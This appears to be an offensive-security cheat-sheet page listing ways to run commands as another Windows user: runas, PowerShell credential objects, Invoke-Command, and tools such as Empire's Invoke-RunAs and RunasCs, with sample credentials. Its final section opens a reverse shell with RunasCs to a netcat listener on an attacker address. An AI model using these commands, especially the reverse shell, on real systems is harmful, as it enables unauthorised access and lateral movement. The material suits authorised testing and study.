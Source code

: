 # RunAs


## Cmd



### runas.exe

```
Cmd > runas /u:snovvcrash powershell.exe
```




## PowerShell

```
PS > $cred = New-Object System.Management.Automation.PSCredential('<HOSTNAME>\<USERNAME>', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
```



### Process.Start

```
PS > $computer = "PC01"
PS > [System.Diagnostics.Process]::Start("C:\Windows\System32\cmd.exe", "/c ping -n 1 10.10.13.37", $cred.Username, $cred.Password, $computer)
```



### Start-Process

```
PS > Start-Process -FilePath "C:\Windows\System32\cmd.exe" -ArgumentList "/c ping -n 1 10.10.13.37" -Credential $cred
```



### Invoke-Command

With `-Credential`:

```
PS > Invoke-Command -ComputerName <HOSTNAME> -ScriptBlock { whoami } -Credential $cred
```

With `-Session`:

```
PS > $s = New-PSSession -ComputerName <HOSTNAME> -Credential $cred
PS > Invoke-Command -ScriptBlock { whoami } -Session $s
```



### Invoke-RunAs

* [https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1)

```
PS > Invoke-RunAs -UserName snovvcrash -Password 'Passw0rd!' -Domain MEGACORP -Cmd cmd.exe -Arguments "/c ping -n 1 10.10.13.37"
```



### Invoke-CommandAs

* [https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1](https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1)
* [https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1](https://github.com/mkellerman/Invoke-CommandAs/blob/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1)
* [https://malicious.link/post/2020/run-as-system-using-evil-winrm/](https://malicious.link/post/2020/run-as-system-using-evil-winrm/)

```
PS > . .\Invoke-ScheduledTask.ps1
PS > . .\Invoke-CommandAs.ps1
PS > Invoke-CommandAs -ScriptBlock {whoami} -AsUser $cred
```



### RunasCs

* [https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)

```
$ rlwrap nc -lvnp 1337
PS > Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```
